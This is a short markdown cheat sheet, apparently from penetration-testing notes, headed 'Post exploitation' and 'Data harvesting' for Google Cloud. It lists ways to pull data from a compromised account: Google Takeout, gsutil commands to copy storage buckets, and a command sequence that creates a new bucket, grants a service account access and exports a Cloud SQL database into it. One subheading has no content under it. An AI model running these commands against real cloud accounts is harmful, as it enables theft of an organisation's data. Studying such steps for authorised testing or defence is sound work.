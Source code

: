# Post exploitation
## Data harvesting
### Export google data with takeout.google.com
- https://takeout.google.com

### Export SQL databases

### Export buckets
```
gsutil cp gs://bucket-name/folder/ 
```

### Create new storage bucket, change perms, export SQL DB
```
gsutil mb gs://<googlestoragename>
gsutil acl ch -u <service account> gs://<googlestoragename>
gcloud sql export sql <sql instance name> 
gs://<googlestoragename>/sqldump.gz --database=<database name>
```
